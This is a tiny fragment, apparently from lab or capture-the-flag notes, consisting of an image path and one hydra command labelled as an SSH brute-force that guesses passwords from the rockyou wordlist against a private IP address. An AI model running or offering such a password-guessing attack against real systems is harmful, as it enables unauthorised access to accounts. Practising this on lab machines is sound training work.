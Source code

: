 ----

[brutefore_ssh] 
**"hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.204.240 ssh"**
